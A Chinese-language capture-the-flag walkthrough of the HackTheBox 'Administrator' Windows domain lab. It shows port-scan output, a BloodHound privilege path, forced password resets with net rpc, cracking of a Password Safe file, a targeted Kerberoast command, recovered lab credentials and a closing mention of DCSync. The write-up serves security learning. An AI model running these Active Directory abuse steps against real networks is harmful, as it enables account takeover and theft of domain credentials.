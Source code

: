 ```yaml
---
title: Administrator
weight: 634
tags:
  - windows
  - medium
  - targeted-kerberoasting
  - dcsync
---
```


```bash
PORT      STATE SERVICE          REASON
21/tcp    open  ftp              syn-ack ttl 127
53/tcp    open  domain           syn-ack ttl 127
88/tcp    open  kerberos-sec     syn-ack ttl 127
135/tcp   open  msrpc            syn-ack ttl 127
139/tcp   open  netbios-ssn      syn-ack ttl 127
389/tcp   open  ldap             syn-ack ttl 127
445/tcp   open  microsoft-ds     syn-ack ttl 127
464/tcp   open  kpasswd5         syn-ack ttl 127
593/tcp   open  http-rpc-epmap   syn-ack ttl 127
636/tcp   open  ldapssl          syn-ack ttl 127
3268/tcp  open  globalcatLDAP    syn-ack ttl 127
3269/tcp  open  globalcatLDAPssl syn-ack ttl 127
5985/tcp  open  wsman            syn-ack ttl 127
9389/tcp  open  adws             syn-ack ttl 127
47001/tcp open  winrm            syn-ack ttl 127
49664/tcp open  unknown          syn-ack ttl 127
49665/tcp open  unknown          syn-ack ttl 127
49666/tcp open  unknown          syn-ack ttl 127
49667/tcp open  unknown          syn-ack ttl 127
49669/tcp open  unknown          syn-ack ttl 127
54747/tcp open  unknown          syn-ack ttl 127
54752/tcp open  unknown          syn-ack ttl 127
54762/tcp open  unknown          syn-ack ttl 127
54777/tcp open  unknown          syn-ack ttl 127
54809/tcp open  unknown          syn-ack ttl 127
62314/tcp open  unknown          syn-ack ttl 127
```

根据默认账户密码先走一遍bloodhound收集信息，简单看一眼，第一条攻击路径如下

```
olivia -[GenericAll]-> michael -[ForceChangePassword]-> benjamin
```

```
net rpc password "michael" "newP@ssword2024" -U "administrator.htb"/"Olivia"%"ichliebedich" -S "dc.administrator.htb"

net rpc password "benjamin" "newP@ssword2024" -U "administrator.htb"/"michael"%"newP@ssword2024" -S "dc.administrator.htb"
```

用 `benjamin` 登录 ftp，拿到一个psafe文件，转为john支持的格式然后爆破拿到密码，使用密码打开这个psafe文件然后得到三个用户的密码

```
pwsafe2john Backup.psafe3 > Backup.psafe3.john
```

验证完毕之后只有emily的密码是有效的

`emily:UXLCI5iETUsIBoFVTj8yQFKoHjXmb`

继续查看bloodhound，使用 [[Targeted Kerberoast]] 攻击ethan账户

```
targetedKerberoast.py -v -d 'administrator.htb' -u "emily" -p "UXLCI5iETUsIBoFVTj8yQFKoHjXmb"
```

`ethan:limpbizkit`

[[DCSync]] 拖到域管理员hash